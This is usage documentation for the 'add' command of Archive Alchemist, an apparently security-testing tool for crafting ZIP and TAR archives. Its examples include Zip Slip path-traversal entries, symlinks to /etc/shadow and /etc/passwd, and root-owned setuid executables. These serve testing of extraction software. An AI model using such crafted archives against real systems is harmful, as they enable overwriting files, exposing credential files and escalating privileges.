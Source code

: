 # Archive Alchemist: add Command

## Overview

The `add` command adds files, directories, symlinks, or hardlinks to an archive. It's one of the most versatile commands in Archive Alchemist, allowing you to craft archives with various file types and properties.

## Syntax

```bash
./archive-alchemist.py -f <archive> [-t <type>] add <path> [options]
```

## Options

| Option | Description | Default | Example |
|--------|-------------|---------|---------|
| `<path>` | Path within the archive (required) | N/A | `file.txt`, `dir/file.js`, `../etc/passwd` |
| `--content` | Text content to add to the file | Empty | `--content "console.log('hello')"` |
| `--content-file` | Path to a local file whose content should be added | None | `--content-file /path/to/local/file.txt` |
| `--content-directory` | Path to a local directory to add recursively | None | `--content-directory /path/to/local/dir` |
| `--symlink` | Create a symlink to this target | None | `--symlink "/etc/passwd"` |
| `--hardlink` | Create a hardlink to this target | None | `--hardlink "target.txt"` |
| `--mode` | File mode in octal notation | 0644 for files<br>0755 for directories | `--mode 0755` |
| `--uid` | User ID | Current user | `--uid 0` |
| `--gid` | Group ID | Current group | `--gid 0` |
| `--mtime` | Modification time (Unix timestamp) | Current time | `--mtime 1609459200` |
| `--setuid` | Set the setuid bit | False | `--setuid` |
| `--setgid` | Set the setgid bit | False | `--setgid` |
| `--sticky` | Set the sticky bit | False | `--sticky` |

**Note**: You can specify only one of `--content`, `--content-file`, `--content-directory`, `--symlink`, or `--hardlink`.

## Examples

### Adding a Regular File

```bash
# Add a file with inline content
./archive-alchemist.py -f archive.zip add hello.js --content "console.log('hello')"

# Add a file with content from another file
./archive-alchemist.py -f archive.zip add config.json --content-file /path/to/local/config.json
```

### Adding Files with Path Traversal

```bash
# Add a file with a path traversal pattern
./archive-alchemist.py -f archive.tar -t tar add "../../../etc/passwd" --content "fake passwd file"
```

### Adding Files with Special Permission Bits

```bash
# Add a file with executable permissions
./archive-alchemist.py -f archive.tar -t tar add exploit.sh --content "#!/bin/sh\necho hacked" --mode 0755

# Add a file with setuid bit
./archive-alchemist.py -f archive.tar -t tar add setuid_exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0

# Add a file with sticky bit
./archive-alchemist.py -f archive.zip add sticky_directory/ --content "sticky directory" --mode 0777 --sticky
```

### Adding Symlinks

```bash
# Add a symlink to an absolute path
./archive-alchemist.py -f archive.tar -t tar add evil.conf --symlink "/etc/shadow"

# Add a symlink to a relative path
./archive-alchemist.py -f archive.zip add relative_link.txt --symlink "../sensitive.txt"
```

### Adding Hardlinks (TAR only)

```bash
# Add a hardlink to another file in the archive
./archive-alchemist.py -f archive.tar -t tar add hardlink.txt --hardlink "original.txt"
```

**Note**: ZIP format doesn't support true hardlinks. When adding a hardlink to a ZIP file, Archive Alchemist creates a regular file with the target path as its content.

### Adding an Entire Directory Structure

```bash
# Add a directory structure recursively
./archive-alchemist.py -f archive.zip add website/ --content-directory /path/to/local/website

# Add a directory with custom permissions
./archive-alchemist.py -f archive.tar -t tar add backup/ --content-directory /etc/config --mode 0600
```

When using `--content-directory`:
- File permissions are preserved from the source directory unless overridden with `--mode`
- Directory structure and empty directories are maintained
- Symlinks in the source directory are added as symlinks in the archive
- If a file already exists in the archive, it will be overwritten with the new content

## Advanced Examples

### Creating a Zip Slip Payload

```bash
# Create a zip with path traversal payload
./archive-alchemist.py -f zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

### Creating a Symlink Attack

```bash
# Create a symlink pointing to a sensitive file
./archive-alchemist.py -f symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

### Creating a Setuid Executable

```bash
# Create a setuid executable owned by root
./archive-alchemist.py -f setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

### Setting Custom Timestamps

```bash
# Add a file with a specific modification time (January 1, 2021)
./archive-alchemist.py -f archive.zip add old_file.txt --content "Old content" --mtime 1609459200
```

## Notes and Warnings

- The `--setuid`, `--setgid`, and `--sticky` permission bits are only meaningful in Unix/Linux systems. Windows systems will ignore these bits.

- ZIP archives have limitations regarding Unix permissions and special file types like symlinks. These are implemented using ZIP extension fields and may not be recognized by all ZIP utilities.